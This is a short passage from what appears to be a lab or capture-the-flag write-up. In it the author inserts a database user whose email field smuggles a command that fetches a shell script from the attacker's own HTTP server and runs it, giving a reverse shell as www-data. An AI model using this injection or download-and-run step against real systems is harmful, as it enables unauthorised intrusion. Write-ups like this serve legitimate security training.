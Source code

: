 <figure><img src="../../../.gitbook/assets/image (842).png" alt=""><figcaption></figcaption></figure>

However, based on this code, it uses some kind of APP\_SECRET, which I'm too lazy to find. So in this case, we can instead opt to add another user into the database with a command appended to the end in order to gain a reverse shell as the www-data.

We can host a malicious script on a HTTP server and use this insert command.

{% code overflow="wrap" %}
```
insert into users(name,email,email_verified_at,password,remember_token,created_at,updated_at,user_type) values ('testing','testing@ezpwn|wget 10.10.14.5/shell.sh && bash shell.sh', '2022-01-02 20:14:55','ef92b778bafe771e89245b89ecbc08a44a4e166c06659911881f383d4473e94f','2KTrBJhwcS','2022-01-02 20:15:00','2022-01-02 20:15:00','Member');
```
{% endcode %}

Then we can find our user on the website.

<figure><img src="../../../.gitbook/assets/image (2900).png" alt=""><figcaption></figcaption></figure>

Once we hit validate, we will get a shell back as the application user.

<figure><img src="../../../.gitbook/assets/image (1041).png" alt=""><figcaption></figcaption></figure>
